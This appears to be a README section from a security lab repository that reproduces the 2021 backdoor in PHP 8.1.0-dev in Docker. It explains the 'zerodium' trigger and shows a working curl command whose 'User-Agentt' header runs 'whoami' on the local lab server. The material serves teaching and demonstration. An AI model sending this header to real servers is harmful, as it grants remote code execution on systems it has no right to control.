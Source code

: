 # 4. PHP 8.1-DEV BACKDOOR
## What it does
PHP 8.1-dev has been backdoored. A malicious "User-agentt" header can be sent along with the request. \
Read more: https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/ \
https://news-web.php.net/php.internals/113838

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
docker-compose up -d
curl -H "User-Agentt: zerodiumsystem('whoami');" http://localhost:8080
```
![image](https://user-images.githubusercontent.com/31791455/140391265-d9cc3cc8-9c61-47e3-9a54-eece30c0b779.png)


### Explanation
The backdoor looks for existence of malformed user-agent header. If it contains string "zerodium", then anything that comes after it will be executed.

### References and recommended reading
https://www.exploit-db.com/exploits/49933
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/php/8.1-backdoor
